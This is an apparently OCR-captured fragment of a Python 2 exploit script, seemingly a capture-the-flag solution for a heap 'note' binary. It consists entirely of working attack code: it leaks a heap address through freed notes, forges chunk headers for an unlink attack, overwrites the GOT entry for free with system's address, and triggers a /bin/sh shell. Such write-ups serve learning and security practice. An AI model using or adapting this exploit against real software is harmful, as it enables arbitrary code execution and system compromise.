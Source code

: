 ```python
    print "binsh_addr: " + hex(binsh_addr)

    #raw_input()

    ####################leak heap#########################

    notelen=0x10

    new_note("A"*notelen)
    new_note("B"*notelen)
    new_note("C"*notelen)
    new_note("D"*notelen)
    delete_note(2)
    delete_note(0)

    new_note("AAAAAAAA")
    list_note()
    p.recvuntil("0. AAAAAAAA")
    leak = p.recvuntil("\n")

    print leak[0:-1].encode('hex')
    leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
    print hex(leakheapaddr)

    delete_note(0)
    delete_note(1)
    delete_note(3)

    ####################unlink exp#########################

    notelen = 0x80

    #new_note("/bin/sh\x00"+"A"*(notelen-8))
    new_note("A"*notelen)
    new_note("B"*notelen)
    new_note("C"*notelen)

    delete_note(2)
    delete_note(1)
    delete_note(0)

    fd = leakheapaddr - 0x1808 #notetable
    bk = fd + 0x8


    payload  = ""
    payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
    payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
    payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

    new_note(payload)

    delete_note(1)

    free_got = 0x602018

    payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
    payload2 += "A"* (notelen*3-len(payload2)) 

    edit_note(0, payload2)
    edit_note(0, p64(system_sh_addr))

    delete_note(1)
```